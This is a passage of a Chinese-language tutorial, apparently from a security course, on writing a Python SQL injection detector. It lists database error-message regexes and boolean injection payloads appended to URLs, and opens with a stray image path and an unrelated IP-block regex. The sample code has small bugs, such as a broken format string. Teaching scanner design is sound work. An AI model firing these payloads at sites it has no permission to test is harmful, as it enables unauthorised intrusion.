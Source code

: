(?i)(\A|\b)IP\b.*\b(banned|blocked|bl(a|o)ck\s?list|firewall)
- 当然我们只是简单的来判断是否有注入，用这个思路写个脚本，非常简单

## 三、开发准备
在线环境已经安装好了这些库，如果不是用的在线环境，请先安装这些库
```
pip install requests
pip install beautifulsoup4
```

打开Xfce终端，进入 `Code` 目录，创建 `work` 文件夹, 将其作为课程的工作目录。

项目目录结构

```
/w8ay.py //项目启动主文件
/lib/core //核心文件存放目录
/lib/core/config.py //配置文件
/script //插件存放
/exp //exp和poc存放
```
## 四、实验步骤

### 4.1 sql检测脚本编写
用一个字典存储数据库特征：
```python
DBMS_ERRORS = {                                                                     # regular expressions used for DBMS recognition based on error message response
    "MySQL": (r"SQL syntax.*MySQL", r"Warning.*mysql_.*", r"valid MySQL result", r"MySqlClient\."),
    "PostgreSQL": (r"PostgreSQL.*ERROR", r"Warning.*\Wpg_.*", r"valid PostgreSQL result", r"Npgsql\."),
    "Microsoft SQL Server": (r"Driver.* SQL[\-\_\ ]*Server", r"OLE DB.* SQL Server", r"(\W|\A)SQL Server.*Driver", r"Warning.*mssql_.*", r"(\W|\A)SQL Server.*[0-9a-fA-F]{8}", r"(?s)Exception.*\WSystem\.Data\.SqlClient\.", r"(?s)Exception.*\WRoadhouse\.Cms\."),
    "Microsoft Access": (r"Microsoft Access Driver", r"JET Database Engine", r"Access Database Engine"),
    "Oracle": (r"\bORA-[0-9][0-9][0-9][0-9]", r"Oracle error", r"Oracle.*Driver", r"Warning.*\Woci_.*", r"Warning.*\Wora_.*"),
    "IBM DB2": (r"CLI Driver.*DB2", r"DB2 SQL error", r"\bdb2_\w+\("),
    "SQLite": (r"SQLite/JDBCDriver", r"SQLite.Exception", r"System.Data.SQLite.SQLiteException", r"Warning.*sqlite_.*", r"Warning.*SQLite3::", r"\[SQLITE_ERROR\]"),
    "Sybase": (r"(?i)Warning.*sybase.*", r"Sybase message", r"Sybase.*Server message.*"),
}
```
通过正则，如果发现我们的正则语句，就可以判断出是哪个数据库了。
```python
for (dbms, regex) in ((dbms, regex) for dbms in DBMS_ERRORS for regex in DBMS_ERRORS[dbms]):
		if(re.search(regex,_content)):
			return True
```
这个是我们的测试语句[payload]。
```python
BOOLEAN_TESTS = (" AND %d=%d", " OR NOT (%d=%d)")
```
用报错语句返回正确的内容和错误的内容进行对比。
```python
for test_payload in BOOLEAN_TESTS:
#正确的网页
        RANDINT = random.randint(1, 255)
        _url = url + test_payload%(RANDINT,RANDINT)
        content["true"] = Downloader.get(_url)
        _url = url + test_payload%(RANDINT,RANDINT+1)
        content["false"] = Downloader.get(_url)
        if content["origin"]==content["true"]!=content["false"]:
            return "sql fonud: %"%url
```
